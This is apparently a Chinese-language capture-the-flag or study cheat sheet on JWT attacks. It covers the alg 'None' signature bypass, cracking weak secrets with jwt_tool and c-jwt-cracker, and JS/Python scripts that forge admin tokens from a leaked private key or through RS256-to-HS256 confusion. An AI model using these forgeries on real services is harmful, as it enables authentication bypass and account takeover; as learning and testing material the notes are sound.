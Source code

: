 [JSON Web Tokens - jwt.io](https://jwt.io/)

三个部分组成
- Header
- Payload
- Signature
形式：xxxxx.yyyyy.zzzzz

```
HEADER:ALGORITHM & TOKEN TYPE
{
  "alg": "None",
  "typ": "jwt"
}

PAYLOAD:DATA
[
  {
    "iss": "admin",
    "iat": 1689410770,
    "exp": 1689417970,
    "nbf": 1689410770,
    "sub": "user",
    "jti": "f9bb22e3f645b6d8cd37307ff1349306"
  }
]

VERIFY SIGNATURE

签名一般会变
```

## 无签名认证时，可以先调为HS256加密算法进行JWT
```

当有签名时，可将 Header 中的加密算法改为 None（JWT 支持将算法设定为 “None”。如果“alg” 字段设为“ None”，那么签名会被置空，这样任何 token 都是有效的）

改payload为:header + '.' + payload + '.'（注意最后的点）

直接用base64改即可
```

## 弱密码利用工具爆破获得密钥 
```
c-jwt-cracker

./jwtcrack xxx


jwt_tool.py

python3 jwt_tool.py xxx -C -d jwt-common.txt
```
[GitHub - ticarpi/jwt_tool: :snake: A toolkit for testing, tweaking and cracking JSON Web Tokens](https://github.com/ticarpi/jwt_tool)


```
RS256 是使用 RSA 私钥进行签名，使用 RSA 公钥进行验证,
HS256 使用同一个「secret_key」进行签名与验证（对称加密）
ES256 和 RS256 一样，都使用私钥签名，公钥验证

可以尝试浏览器目录是否有public.key 和 private.key
```

## 当知道私钥时，可以通过RS2565构造jwt
```
js脚本
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('private.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'RS256' });
console.log(token)

python脚本：
import jwt  
public = open('private.key', 'r').read()  
payload={"user":"admin"}  
print(jwt.encode(payload, key=public, algorithm='RS256'))
# 需安装pyjwt库
```

## 当只知道公钥时

```
可以通过HS256构造jwt（如果将算法从RS256改为HS256，则后端代码将使用公钥作为密钥，然后使用HS256算法验证签名）

js脚本
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('public.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'HS256' });
console.log(token)
```
